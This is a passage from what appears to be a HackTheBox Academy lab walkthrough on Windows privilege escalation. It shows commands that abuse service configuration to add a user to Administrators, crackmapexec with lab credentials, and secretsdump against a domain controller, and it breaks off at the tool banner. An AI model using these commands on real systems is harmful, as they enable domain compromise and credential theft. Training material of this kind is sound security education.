5)

C:\Users\server_adm>sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\server_adm>sc start AppReadiness
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

6)

C:\Users\server_adm>net localgroup Administrators
Alias name     Administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Domain Admins
Enterprise Admins
server_adm
The command completed successfully.


C:\Users\server_adm>type c:\Users\Administrator\Desktop\ServerOperators\flag.txt
Access is denied.

7)

crackmapexec smb 10.129.43.42 -u server_adm -p 'HTB_@cademy_stdnt!'

[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing LDAP protocol database
[*] Initializing RDP protocol database
[*] Initializing SSH protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.129.43.42    445    WINLPE-DC01      [*] Windows 10.0 Build 17763 x64 (name:WINLPE-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.43.42    445    WINLPE-DC01      [+] INLANEFREIGHT.LOCAL\server_adm:HTB_@cademy_stdnt! (Pwn3d!)

8)

secretsdump.py server_adm@10.129.43.42 -just-dc-user administrator
HTB_@cademy_stdnt!

Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
